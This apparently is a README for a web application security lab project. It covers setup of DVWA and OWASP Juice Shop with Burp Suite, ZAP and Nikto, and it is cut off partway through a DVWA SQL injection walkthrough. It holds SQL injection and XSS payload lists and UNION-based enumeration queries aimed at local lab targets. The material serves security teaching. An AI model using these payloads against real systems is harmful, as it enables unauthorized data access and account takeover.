

# Cybersecurity Web App Incident Response 
## 🛡️ Web Application Vulnerability Assessment Project

## 📋 Project Overview

### Why This Case Study Matters

In today's digital landscape, web applications have become the backbone of modern business operations. From e-commerce platforms to banking systems, social media networks to healthcare portals, millions of users interact with web applications daily, entrusting them with their most sensitive personal and financial information.

#### The Universal Nature of Web Applications

| **USERS: 4.9B Internet Users Daily** | **CATEGORIES: Critical Infrastructure** |
|---------------------------------------|------------------------------------------|
| • **20+** Daily App Interactions     | 🔒 **Banking & Healthcare & Government** |
| • **$5.7T** E-commerce Volume        | 📱 **Social Platforms & Communication** |
| • **95%** Business Dependency        | 💳 **Payment Systems & Wallets**        |
| • **2B+** Mobile Sessions            | ☁️ **Cloud Infrastructure & SaaS**      |

**Key Statistics:**
- **4.9 billion people** use the internet daily
- **95% of businesses** depend on web applications  
- **$5.7 trillion** in annual e-commerce sales

#### The Trust Factor



**Data Categories Analysis:**
- **Financial Data**: Banking, payments, credit cards (Highest risk/trust)
- **Personal Information**: Names, addresses, phone numbers  
- **Business Data**: Proprietary info, trade secrets
- **Authentication**: Passwords, session tokens
- **Behavioral Data**: Usage patterns, preferences (Lower risk zone)

#### The Vulnerability Reality

| **Threat Landscape** | **Impact** |
|----------------------|------------|
| 🎯 **43%** target small businesses | Small business vulnerability |
| 🌐 **26%** breaches via web apps | Application layer focus |
| 💰 **$4.88M** average breach cost | Financial impact |
| 🔥 **75%** attacks at app layer | Attack vector concentration |

**Cyber Threat Evolution Timeline:**
```
2020 ──────────────────── 2022 ──────────────────── 2024 ──────────────────── 2026
│                         │                         │                         │
│ Web App Attacks: 22%    │ Web App Attacks: 24%    │ Web App Attacks: 26%    │ Projected: 30%
│ Small Biz Targets: 35%  │ Small Biz Targets: 39%  │ Small Biz Targets: 43%  │ Targets: 48%
│ Avg Cost: $3.86M        │ Avg Cost: $4.35M        │ Avg Cost: $4.88M        │ Cost: $5.5M
│                         │                         │ App Layer Focus: 75%    │
```

## 🎯 Vulnerability Focus Areas

### Primary Vulnerabilities

#### 1. **SQL Injection (SQLi)**
- **OWASP Ranking**: #3 in OWASP Top 10 2021
- **Prevalence**: Found in 19% of web applications
- **Business Impact**: 
  - Complete database compromise
  - Unauthorized data access/theft
  - Data manipulation/deletion
  - Potential system takeover

#### 2. **Cross-Site Scripting (XSS)**
- **OWASP Ranking**: #7 in OWASP Top 10 2021
- **Prevalence**: Present in 23% of web applications
- **Business Impact**:
  - Session hijacking and account takeover
  - Malware distribution
  - Defacement and reputation damage
  - Phishing attacks against users

#### 3. **Broken Session Management**
- **OWASP Category**: Broken Authentication (#2 in OWASP Top 10 2021)
- **Prevalence**: 14% of applications have authentication flaws
- **Business Impact**:
  - Unauthorized account access
  - Session fixation attacks
  - Identity theft
  - Privilege escalation

### Vulnerability Impact Overview

```
                    Web Application Vulnerabilities
                             │
         ┌───────────────────┼───────────────────┐
         │                   │                   │
    SQL Injection       Cross-Site         Broken Auth
    Prevalence: 19%     Scripting          Prevalence: 14%
         │              Prevalence: 23%          │
         │                   │                   │
    ┌────┴───────┐      ┌────┴──────┐       ┌────┴─────┐
    │  Database  │      │  Session  │       │ Identity │
    │ Compromise │      │ Hijacking │       │   Theft  │
    └────────────┘      └───────────┘       └──────────┘
         │                   │                   │
         └───────────────────┼───────────────────┘
                             │
                    Business Impact
                    ┌────────┴──────────┐
                    │   Financial Loss  │
                    │  Regulatory Fines │
                    │   Customer Churn  │
                    │ Reputation Damage │
                    └───────────────────┘
```

### Secondary Impact Scenarios

#### 4. **Session Hijacking**
- **Attack Vector**: Exploitation of session tokens through XSS or network sniffing
- **Consequences**: Complete account takeover, unauthorized transactions
- **Financial Impact**: Average of $1.2M per incident

#### 5. **Data Breaches**
- **Attack Vector**: SQL injection leading to mass data extraction
- **Consequences**: Regulatory fines, legal liability, customer loss
- **Cost Breakdown**: 38% of total breach cost attributed to lost business

#### 6. **Denial of Service (DoS)**
- **Attack Vector**: Resource exhaustion through SQL injection or XSS
- **Consequences**: Service unavailability, revenue loss, SLA violations
- **Downtime Cost**: $5,600 per minute for large enterprises

## 🧪 Testing Environments

### Comparative Analysis

```
┌─────────────────┬────────────────────┬─────────────────────────┐
│ Feature         │ DVWA               │ OWASP Juice Shop        │
├─────────────────┼────────────────────┼─────────────────────────┤
│ Installation    │ Pre-installed      │ Requires Node.js setup  │
│                 │ in Kali            │                         │
├─────────────────┼────────────────────┼─────────────────────────┤
│ Technology      │ PHP/MySQL          │ Node.js/SQLite          │
│ Stack           │                    │                         │
├─────────────────┼────────────────────┼─────────────────────────┤
│ Vulnerability   │ Traditional web    │ Modern app              │
│ Coverage        │ vulnerabilities    │ vulnerabilities         │
├─────────────────┼────────────────────┼─────────────────────────┤
│ Learning Curve  │ Beginner-friendly  │ Intermediate-advanced   │
├─────────────────┼────────────────────┼─────────────────────────┤
│ Realistic       │ Educational focus  │ Business-realistic      │
│ Scenarios       │                    │                         │
└─────────────────┴────────────────────┴─────────────────────────┘
```

### Option 1: DVWA (Damn Vulnerable Web Application)
- **Advantages**: Pre-installed in Kali Linux, well-documented vulnerabilities
- **Use Case**: Controlled learning environment with adjustable security levels
- **Target Audience**: Beginners to intermediate penetration testers

### Option 2: OWASP Juice Shop
- **Advantages**: Modern application stack, realistic scenarios, gamified challenges
- **Use Case**: Advanced testing with contemporary web technologies
- **Target Audience**: Intermediate to advanced security professionals

## 🔧 Tools Arsenal

### Tool Comparison Matrix

```
┌─────────────────┬─────────────────────┬─────────────────────────┬───────────────────┐
│ Tool            │ Primary Purpose     │ Market Share/Usage      │ Key Strengths     │
├─────────────────┼─────────────────────┼─────────────────────────┼───────────────────┤
│ Burp Suite      │ Manual testing,     │ 87% of pen testers      │ Proxy, repeater,  │
│ Community       │ request             │                         │ intruder          │
│ Edition         │ manipulation        │                         │ functionality     │
├─────────────────┼─────────────────────┼─────────────────────────┼───────────────────┤
│ OWASP ZAP       │ Automated scanning  │ 50,000+ GitHub stars    │ Free scanner,     │
│                 │ and manual testing  │                         │ extensive API,    │
│                 │                     │                         │ user-friendly     │
├─────────────────┼─────────────────────┼─────────────────────────┼───────────────────┤
│ Nikto           │ Web server scanning │ 6,700+ vulnerability    │ Fast recon,       │
│                 │ and configuration   │ checks                  │ comprehensive     │
│                 │ testing             │                         │ checks            │
└─────────────────┴─────────────────────┴─────────────────────────┴───────────────────┘
```

### Penetration Testing Tool Workflow

```
Reconnaissance ───────── Analysis ───────────── Exploitation ────────── Reporting
      │                     │                         │                      │
   ┌──┴────┐         ┌──────┴──────┐           ┌──────┴─────┐         ┌──────┴─────┐
   │ Kali  │         │ Burp  Suite │           │ Burp Suite │         │ Burp Suite │
   │ Linux │ ──────► │  OWASP ZAP  │ ────────► │  OWASP ZAP │ ──────► │  OWASP ZAP │
   │ Tools │         │    Nikto    │           │    Payld   │         │    Report  │
   └───────┘         └─────────────┘           └────────────┘         └────────────┘
        3                  4,5                       4,5                    3,4
     Rating              Rating                     Rating                 Rating
```

## 📊 Impact Assessment Framework

### Technical Impact Categories

```
Critical Impact ($1M+) ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ CVSS: 9.0-10.0
         │                Complete System Compromise
         │
High Impact ($100K-$1M) ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ CVSS: 7.0-8.9
         │                Sensitive Data Exposure
         │
Medium Impact ($10K-$100K) ━━━━━━━━━━━━━━━━━━━━━━━━━━━━ CVSS: 4.0-6.9
         │                Limited Data Access
         │
Low Impact (<$10K) ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ CVSS: 0.1-3.9
                   Information Disclosure
```

```
┌────────────┬─────────────────────────────┬─────────────────────────┬──────────────┐
│ Severity   │ Description                 │ Business Impact         │ CVSS Range   │
├────────────┼─────────────────────────────┼─────────────────────────┼──────────────┤
│ Critical   │ Complete system compromise  │ $1M+ potential loss     │ 9.0-10.0     │
│ High       │ Sensitive data exposure     │ $100K-$1M potential     │ 7.0-8.9      │
│ Medium     │ Limited data access         │ $10K-$100K potential    │ 4.0-6.9      │
│ Low        │ Information disclosure      │ <$10K potential loss    │ 0.1-3.9      │
└────────────┴─────────────────────────────┴─────────────────────────┴──────────────┘
```

### Business Risk Calculation Model

#### Financial Impact Components (IBM Security, 2024)
- **Detection and Escalation** (27%): $1.32M average
- **Notification** (7%): $0.34M average  
- **Post-breach Response** (28%): $1.37M average
- **Lost Business** (38%): $1.85M average

#### Compliance Implications by Regulation

| **Regulation** | **Maximum Penalty** | **Authority** |
|----------------|---------------------|---------------|
| **🇪🇺 GDPR** | €20M or 4% of annual turnover | European Commission |
| **💳 PCI-DSS** | $5,000-$100,000 per month | PCI Security Standards Council |
| **📊 SOX** | $5M fine + 20 years imprisonment | SEC |
| **🏥 HIPAA** | $100-$50,000 per violation<br/>Max $1.5M annually | HHS |

## 🔒 Remediation Guidelines

### Defense in Depth Architecture

```
                          Security Control Implementation

Layer 1: Preventive Controls          Layer 2: Detective Controls
┌─────────────────────────┐          ┌─────────────────────────┐
│  • Input Validation     │ ────────►│  • Security Logging     │
│                         │          │                         │
│  • Authentication       │ ────────►│  • Real-time Monitoring │
│                         │          │                         │
│  • Authorization        │ ────────►│  • Anomaly Detection    │
│                         │          │                         │
│  • Encryption           │ ────────►│  • Threat Intelligence  │
└─────────────────────────┘          └─────────────────────────┘
            │                                    │
            ▼                                    ▼
Layer 3: Corrective Controls          Layer 4: Compensating Controls
┌─────────────────────────┐          ┌─────────────────────────┐
│  • Incident Response    │          │  • Web App Firewall     │
│                         │          │                         │
│  • Automated Recovery   │          │  • Rate Limiting        │
│                         │          │                         │
│  • Backup Systems       │          │  • Content Security     │
│                         │          │    Policy               │
│  • Patch Management     │          │                         │
│                         │          │  • Security Headers     │
└─────────────────────────┘          └─────────────────────────┘
```

---

# 🚀 Environment Setup and Configuration

## Prerequisites

### System Resource Requirements

```
┌─────────────┬─────────────┬─────────────────┐
│  Component  │   Minimum   │   Recommended   │
├─────────────┼─────────────┼─────────────────┤
│ CPU         │ 2 cores     │ 4+ cores        │
│ RAM         │ 4GB         │ 8GB+            │
│ Storage     │ 20GB free   │ 40GB+ free      │
│ Network     │ 10 Mbps     │ 100 Mbps+       │
└─────────────┴─────────────┴─────────────────┘
```

### Initial Kali Linux Setup
```bash
# Update system packages
sudo apt update && sudo apt upgrade -y

# Verify security tools installation
burpsuite --version
zaproxy --version
nikto -Version

# Install missing tools if necessary
sudo apt install burpsuite zaproxy nikto -y

# Verify installation success
echo "Tool verification complete"
```

## 🎯 DVWA Setup and Configuration

### Step 1: Install and Configure DVWA
```bash
# Install DVWA package
sudo apt update
sudo apt install dvwa -y

# Start required web services
sudo systemctl start apache2
sudo systemctl start mysql

# Enable services to start at boot
sudo systemctl enable apache2
sudo systemctl enable mysql

# Verify service status
sudo systemctl status apache2
sudo systemctl status mysql
```

### Step 2: Database Configuration
```bash
# Access MySQL as root user
sudo mysql -u root

# Execute database setup commands
CREATE DATABASE dvwa;
CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

### Step 3: Configure DVWA Settings
```bash
# Edit DVWA configuration file
sudo nano /etc/dvwa/config/config.inc.php
```

Update the following database settings:
```php
$_DVWA['db_user'] = 'dvwa';
$_DVWA['db_password'] = 'p@ssw0rd';
$_DVWA['db_database'] = 'dvwa';
$_DVWA['db_server'] = '127.0.0.1';
```

### Step 4: Initialize DVWA
1. Open web browser and navigate to: `http://127.0.0.1/dvwa/setup.php`
2. Click "Create / Reset Database" button
3. Navigate to login page: `http://127.0.0.1/dvwa/login.php`
4. Login with default credentials: `admin` / `password`
5. Navigate to DVWA Security settings and set level to "Low"

## 🧃 OWASP Juice Shop Setup

### Step 1: Install Node.js and npm
```bash
# Install Node.js version 18.x (LTS)
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt-get install -y nodejs

# Verify installation versions
node --version
npm --version

# Expected output: Node v18.x.x, npm 9.x.x
```

### Step 2: Install OWASP Juice Shop
```bash
# Option 1: Global npm installation (recommended)
npm install -g juice-shop

# Option 2: Docker installation (alternative)
sudo apt install docker.io -y
sudo systemctl start docker
sudo docker pull bkimminich/juice-shop

# Option 3: Local development setup
git clone https://github.com/juice-shop/juice-shop.git
cd juice-shop
npm install
```

### Step 3: Run Juice Shop
```bash
# Method 1: If installed via npm globally
juice-shop

# Method 2: If using Docker
sudo docker run --rm -p 3000:3000 bkimminich/juice-shop

# Method 3: If cloned from repository
cd juice-shop
npm start > /dev/null 2>&1 &
```

### Step 4: Stop Juice Shop
```bash
# Kill it (replace %1 with actual job number)
kill %1
# or kill by process ID
kill 424905
```

### Step 4: Access and Configure Juice Shop
- Open web browser and navigate to: `http://localhost:3000`
- Create a test user account for penetration testing
- Explore the application interface and functionality
- Note: Application runs on port 3000 by default

---

# 🔧 Comprehensive Web Application Security Scanner Setup Guide

## 1. 🎯 Burp Suite - Interactive Web Application Security Testing

### What is Burp Suite?
Burp Suite is an integrated platform for performing security testing of web applications. It acts as a proxy between your browser and the target application, allowing you to intercept, modify, and analyze HTTP requests and responses.

### Prerequisites
```bash
# Ensure Burp Suite is installed
sudo apt update
sudo apt install burpsuite
```

### Step 1: Basic Manual Scanning

#### 1.1 Launch Burp Suite
```bash
# Launch Burp Suite Community Edition
burpsuite &
```

#### 1.2 Initial Configuration (UI Steps)
1. **Start Burp Suite**
   - Click "Next" on the startup screen
   - Select "Use Burp defaults" for project options
   - Click "Start Burp"

2. **Configure Browser Proxy**
   - In Firefox: Go to Settings → Network Settings → Manual proxy configuration
   - Set HTTP Proxy: `127.0.0.1` Port: `8080`
   - Check "Use this proxy server for all protocols"

3. **Install Burp CA Certificate**
   - Navigate to `http://burp` in your browser
   - Click "CA Certificate" to download
   - In Firefox: Settings → Privacy & Security → Certificates → View Certificates
   - Import the downloaded certificate

#### 1.3 Manual Testing Process
1. **Navigate Target Application**
   - Go to your target (e.g., `http://localhost:3000` for Juice Shop)
   - Browse through different pages and features
   - All traffic will be captured in Burp's "Target" tab

2. **Analyze Captured Requests**
   - Go to "Target" tab → "Site map"
   - Review all discovered endpoints
   - Right-click interesting requests → "Send to Repeater"

3. **Manual Testing**
   - Use "Repeater" tab to modify and resend requests
   - Use "Intruder" tab for automated parameter fuzzing

### Step 2: Automated Payload Generation

#### 2.1 Create Payload Setup Script
**Filename:** `setup_burp_payloads.sh`

```bash
#!/bin/bash
# Burp Suite Payload Generator
# Creates organized payload lists for common web vulnerabilities

# Create custom SQL injection payload list
mkdir -p ~/.config/burp/payloads
cat > ~/.config/burp/payloads/sql_injection.txt << 'EOF'
' OR '1'='1
' OR '1'='1'--
' OR '1'='1'/*
admin'--
admin'/*
' OR 1=1--
' OR 1=1#
' OR 1=1/*
' UNION SELECT 1,2,3--
' UNION SELECT null,null,null--
' AND 1=1--
' AND 1=2--
1' OR '1'='1
1' OR '1'='1'--
1' OR '1'='1'/*
EOF

# Create XSS payload list
cat > ~/.config/burp/payloads/xss_payloads.txt << 'EOF'
<script>alert('XSS')</script>

<svg onload=alert('XSS')>
javascript:alert('XSS')
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>
<iframe src=javascript:alert('XSS')>
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
EOF

echo "Burp Suite payloads created successfully!"
echo "SQL Injection payloads: ~/.config/burp/payloads/sql_injection.txt"
echo "XSS payloads: ~/.config/burp/payloads/xss_payloads.txt"
```

#### 2.2 Execute Payload Script
```bash
# Make executable
chmod +x setup_burp_payloads.sh

# Run the script
./setup_burp_payloads.sh

# Verify files were created
ls -la ~/.config/burp/payloads/
```

#### 2.3 Use Payloads in Burp Suite
1. Send a request to "Intruder"
2. Set payload positions (highlight parameters)
3. Go to "Payloads" tab
4. Load payload file: "Load..." → Select your payload file
5. Click "Start attack"

---

## 2. 🕷️ OWASP ZAP - Automated Web Application Security Scanner

### What is OWASP ZAP?
OWASP ZAP (Zed Attack Proxy) is a free, open-source web application security scanner. It's designed to be used by people with a wide range of security experience and is ideal for developers and functional testers.

### Prerequisites
```bash
# Install ZAP and Python API
sudo apt update
sudo apt install zaproxy
pip3 install python-owasp-zap-v2.4
```

### Step 1: Basic Manual Scanning

#### 1.1 Launch ZAP
```bash
# Launch ZAP in GUI mode
zaproxy &
```

#### 1.2 Initial Configuration (UI Steps)
1. **ZAP Startup**
   - Choose "No, I do not want to persist this session" (for basic scanning)
   - Click "Start"

2. **Configure Browser Proxy**
   - In Firefox: Settings → Network Settings → Manual proxy configuration
   - Set HTTP Proxy: `127.0.0.1` Port: `8080`
   - Important: If both Burp and ZAP are running, use different ports or run them separately

3. **Install ZAP CA Certificate**
   - In ZAP: Tools → Options → Dynamic SSL Certificates
   - Click "Save" to download the certificate
   - Import in Firefox: Settings → Privacy & Security → Certificates → Import

#### 1.3 Manual Scanning Process
1. **Navigate Target Application**
   - Enter target URL in ZAP's URL field: `http://localhost:3000`
   - Browse through the application manually
   - All requests appear in the "Sites" tree

2. **Use Built-in Spider**
   - Right-click on target in Sites tree
   - Select "Attack" → "Spider"
   - Click "Start Scan"

3. **Run Active Scan**
   - After spidering, right-click target
   - Select "Attack" → "Active Scan"
   - Click "Start Scan"

4. **Review Results**
   - Check "Alerts" tab for vulnerabilities
   - Each alert shows details, solution, and references

### Step 2: Automated ZAP Scanning

#### 2.1 Create ZAP Automation Script
**Filename:** `zap_auto_scan.py`

**What this script does:** Automatically connects to ZAP, crawls the target website to find all pages, then tests each page for security vulnerabilities, and generates detailed reports.

```python
#!/usr/bin/env python3
"""
ZAP Automated Scanning Script for Kali Linux
Automatically crawls and scans web applications for vulnerabilities
"""
from zapv2 import ZAPv2
import time
import sys

def automated_scan(target_url):
    # Connect to ZAP
    zap = ZAPv2(proxies={'http': 'http://127.0.0.1:8080', 
                         'https': 'http://127.0.0.1:8080'})
    
    print(f"Starting automated scan of {target_url}")
    
    # Spider the target
    print("Starting spider...")
    spider_id = zap.spider.scan(target_url)
    
    # Wait for spider to complete
    while int(zap.spider.status(spider_id)) < 100:
        print(f"Spider progress: {zap.spider.status(spider_id)}%")
        time.sleep(5)
    
    print("Spider completed")
    
    # Start active scan
    print("Starting active scan...")
    scan_id = zap.ascan.scan(target_url)
    
    # Wait for scan to complete
    while int(zap.ascan.status(scan_id)) < 100:
        print(f"Scan progress: {zap.ascan.status(scan_id)}%")
        time.sleep(30)
    
    print("Active scan completed")
    
    # Generate report
    html_report = zap.core.htmlreport()
    xml_report = zap.core.xmlreport()
    
    # Save reports
    with open('zap_report.html', 'w') as f:
        f.write(html_report)
    
    with open('zap_report.xml', 'w') as f:
        f.write(xml_report)
    
    print("Reports saved: zap_report.html, zap_report.xml")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 zap_auto_scan.py <target_url>")
        sys.exit(1)
    
    target = sys.argv[1]
    automated_scan(target)
```

#### 2.2 Execute ZAP Automation
```bash
# Start ZAP first
zaproxy &

# Wait for ZAP to fully load (about 30 seconds)
sleep 30

# Make script executable
chmod +x zap_auto_scan.py

# Run automated scan
python3 zap_auto_scan.py http://localhost:3000

# View results
firefox zap_report.html &
```

---

## 3. 🔍 Nikto - Web Server Security Scanner

### What is Nikto?
Nikto is a web server scanner that performs comprehensive tests against web servers for multiple items including dangerous files, outdated server versions, and server configuration issues.

### Prerequisites
```bash
# Nikto comes pre-installed on Kali Linux, but update if needed
sudo apt update
sudo apt install nikto
```

### Step 1: Basic Manual Scanning

#### 1.1 Basic Nikto Commands
```bash
# Basic vulnerability scan
nikto -h http://localhost:3000

# Scan with HTML output
nikto -h http://localhost:3000 -o basic_scan.html -Format htm

# SSL/TLS specific scan
nikto -h https://localhost:3000 -ssl

# Scan specific directories
nikto -h http://localhost:3000 -Cgidirs /admin,/api,/login
```

#### 1.2 Advanced Manual Options
```bash
# Scan with all plugins
nikto -h http://localhost:3000 -Plugins @@ALL

# Scan with specific tests
nikto -h http://localhost:3000 -Tuning x

# Verbose output
nikto -h http://localhost:3000 -verbose

# Save session for resume
nikto -h http://localhost:3000 -save nikto_session.txt
```

### Step 2: Automated Comprehensive Nikto Scanning

#### 2.1 Create Nikto Automation Script
**Filename:** `nikto_comprehensive_scan.sh`

**What this script does:** Runs multiple types of Nikto scans (basic, SSL, CGI, comprehensive) against a target and organizes all results in timestamped folders with HTML reports.

```bash
#!/bin/bash
# Comprehensive Nikto scanning script for Kali Linux
# Performs multiple scan types and organizes results

TARGET_URL="$1"
OUTPUT_DIR="nikto_results_$(date +%Y%m%d_%H%M%S)"

if [ -z "$TARGET_URL" ]; then
    echo "Usage: $0 <target_url>"
    echo "Example: $0 http://localhost:3000"
    exit 1
fi

mkdir -p "$OUTPUT_DIR"
cd "$OUTPUT_DIR"

echo "Starting comprehensive Nikto scan of $TARGET_URL"
echo "Results will be saved in $OUTPUT_DIR/"

# Basic scan
echo "Running basic scan..."
nikto -h "$TARGET_URL" -o "basic_scan.html" -Format htm

# SSL/TLS scan
echo "Running SSL/TLS scan..."
nikto -h "$TARGET_URL" -ssl -o "ssl_scan.html" -Format htm

# CGI scan
echo "Running CGI scan..."
nikto -h "$TARGET_URL" -Cgidirs all -o "cgi_scan.html" -Format htm

# Comprehensive scan with all tests
echo "Running comprehensive scan..."
nikto -h "$TARGET_URL" -Plugins @@ALL -o "comprehensive_scan.html" -Format htm

echo "Nikto scanning completed. Results saved in $OUTPUT_DIR/"
echo "Open reports with: firefox $OUTPUT_DIR/*.html"
```

#### 2.2 Execute Nikto Automation
```bash
# Make executable
chmod +x nikto_comprehensive_scan.sh

# Run comprehensive scan
./nikto_comprehensive_scan.sh http://localhost:3000

# View results
ls nikto_results_*/
firefox nikto_results_*/*.html &
```

---

## 🚀 Complete Workflow Example

### Step-by-Step Implementation

#### Phase 1: Setup and Basic Scanning
```bash
# 1. Setup Burp payloads
chmod +x setup_burp_payloads.sh
./setup_burp_payloads.sh

# 2. Start target application (Juice Shop)
cd ~/juice-shop
npm start &

# 3. Basic Burp Suite scanning
burpsuite &
# Follow UI configuration steps above

# 4. Basic ZAP scanning
zaproxy &
# Follow UI configuration steps above

# 5. Basic Nikto scanning
nikto -h http://localhost:3000 -o quick_scan.html -Format htm
```

#### Phase 2: Automated Comprehensive Scanning
```bash
# 1. Automated ZAP scan
python3 zap_auto_scan.py http://localhost:3000

# 2. Comprehensive Nikto scan
./nikto_comprehensive_scan.sh http://localhost:3000

# 3. View all results
firefox zap_report.html &
firefox nikto_results_*/comprehensive_scan.html &
```

### Results Analysis
- **Burp Suite**: Interactive testing, manual vulnerability verification
- **ZAP Reports**: Automated vulnerability findings with severity ratings
- **Nikto Reports**: Server-level security issues and misconfigurations

### Additional Tools Needed
```bash
# Browser configuration
firefox &  # For proxy configuration and certificate installation

# Report viewing
firefox &  # For HTML report analysis

# Process management
htop       # To monitor running processes
```

---

# 🔍 Scanning Methodology and Penetration Testing Phases

## Penetration Testing Phases

```
Phase 1: Intelligence        Phase 2: Discovery          Phase 3: Analysis
┌─────────────────────┐     ┌─────────────────────┐     ┌─────────────────────┐
│ • Reconnaissance    │────►│ • Network Scanning  │────►│ • Vulnerability     │
│ • Information       │     │ • Service           │     │   Assessment        │
│   Gathering         │     │   Enumeration       │     │ • Risk              │
│ • Target Profiling  │     │ • Technology        │     │   Prioritization    │
│                     │     │   Stack ID          │     │ • Attack Vector     │
│                     │     │                     │     │   Mapping           │
└─────────────────────┘     └─────────────────────┘     └─────────────────────┘
         │                           │                           │
         ▼                           ▼                           ▼
Phase 4: Exploitation        Phase 5: Impact             Phase 6: Documentation
┌─────────────────────┐     ┌─────────────────────┐     ┌─────────────────────┐
│ • Proof of Concept  │────►│ • Business Impact   │────►│ • Technical Report  │
│ • Privilege         │     │   Analysis          │     │ • Executive         │
│   Escalation        │     │ • Compliance        │     │   Summary           │
│ • Data Extraction   │     │   Assessment        │     │ • Remediation       │
│                     │     │ • Risk              │     │   Plan              │
│                     │     │   Quantification    │     │                     │
└─────────────────────┘     └─────────────────────┘     └─────────────────────┘
```

### Tool Performance Comparison

```
┌─────────────┬─────────────────┬──────────────┬─────────────────┬─────────────────────┐
│    Tool     │   Scan Speed    │   Accuracy   │ False Positives │    Best Use Case    │
├─────────────┼─────────────────┼──────────────┼─────────────────┼─────────────────────┤
│ Nikto       │ Fast (5-10 min) │ High         │ Low             │ Server recon        │
│ ZAP         │ Medium (15-30)  │ Very High    │ Medium          │ Automated scanning  │
│ Burp Suite  │ Slow (Manual)   │ Excellent    │ Very Low        │ Manual testing      │
└─────────────┴─────────────────┴──────────────┴─────────────────┴─────────────────────┘
```

---

# 🎯 DVWA Penetration Testing

## Initial DVWA Reconnaissance

### Step 1: Basic Information Gathering
```bash
# Verify DVWA accessibility
curl -I http://127.0.0.1/dvwa/

# Ensure low security setting
# Navigate to: http://127.0.0.1/dvwa/security.php
# Confirm security level is set to "Low"

# Launch penetration testing tools
burpsuite &
zaproxy &
```

### Step 2: Nikto Scanning of DVWA
```bash
# Run comprehensive Nikto scan
nikto -h http://127.0.0.1/dvwa/ -o dvwa_nikto_scan.html -Format htm

# Check for specific vulnerabilities
nikto -h http://127.0.0.1/dvwa/ -Plugins @@ALL
```

### Step 3: ZAP Automated Scanning
```bash
# Start ZAP and configure proxy
# Navigate through DVWA manually to map application
# Execute automated spider and active scan
# Review results in ZAP Alerts tab
```

## DVWA SQL Injection Testing

### Objective and Learning Outcomes
**Primary Objective**: Demonstrate systematic exploitation of SQL injection vulnerabilities to achieve database compromise and quantify business impact.

**Learning Outcomes**:
- Identify SQL injection entry points through manual and automated testing
- Execute database enumeration and data extraction techniques
- Assess business impact of successful SQL injection attacks
- Document findings with proof-of-concept demonstrations

### Business Impact Scenario
*"DataCorp, an e-commerce platform processing $50M annually, suffers a SQL injection attack through their product search functionality. The attacker extracts 500,000 customer records including names, addresses, phone numbers, and encrypted payment data. The breach results in $15.2M in total costs: $8.5M in regulatory fines, $4.2M in customer notification and credit monitoring, $1.8M in legal fees, and $700K in forensic investigation costs. Additionally, 35% customer churn over 12 months results in $17.5M revenue loss."*

### Step-by-Step Testing Procedure

**Step 1: Initial Reconnaissance**
1. Navigate to SQL Injection module: `http://127.0.0.1/dvwa/vulnerabilities/sqli/`
2. Analyze the input form and identify potential injection points
3. Document the application behavior with normal input

**Step 2: Basic Injection Testing**
```sql
-- Test 1: Boolean-based blind injection
Input: 1' OR '1'='1
Expected Result: All user records displayed

-- Test 2: Error-based injection
Input: 1' AND (SELECT COUNT(*) FROM information_schema.tables)>'0
Expected Result: Database error revealing structure information

-- Test 3: Union-based injection
Input: 1' UNION SELECT 1,2#
Expected Result: Determine number of columns in query
```

**Step 3: Database Structure Enumeration**
```sql
-- Discover database version
1' UNION SELECT 1,version()#

-- List all databases
1' UNION SELECT 1,schema_name FROM information_schema.schemata#

-- Enumerate tables in DVWA database
1' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa'#

-- Discover column names in users table
